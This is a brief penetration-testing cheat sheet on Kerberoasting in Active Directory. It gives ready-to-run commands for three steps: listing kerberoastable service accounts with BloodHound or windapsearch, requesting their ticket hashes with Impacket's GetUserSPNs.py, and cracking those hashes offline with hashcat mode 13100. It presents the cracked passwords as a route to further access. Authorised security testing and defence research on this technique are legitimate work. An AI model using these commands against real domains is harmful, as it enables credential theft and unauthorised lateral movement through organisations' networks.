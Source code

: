 # Kerberoasting

Any user can retrieve the hash of certain service accounts in an Active Directory environment. These service accounts are said to be "kerberoastable." With the hash in hand, you can attempt to crack it offline and use the cracked password for further access into the environment.

## Discover which users are "kerberoastable"

```text
Use Bloodhound's prebuilt "List All Kerberoastable Users" query.
```

or

```text
python3 windapsearch.py -u $USERNAME@$DOMAIN -p $PASSWORD --dc-ip $DOMAIN_CONTROLLER_IP --user-spns
```

## Obtain the hash of a "kerberoastable" user

```bash
GetUserSPNs.py -dc-ip $DC_IP $DOMAIN/$DOMAIN_USER:$DOMAIN_USER_PASSWORD -request
```

## Hashcat mode for offline cracking

```text
13100 
```
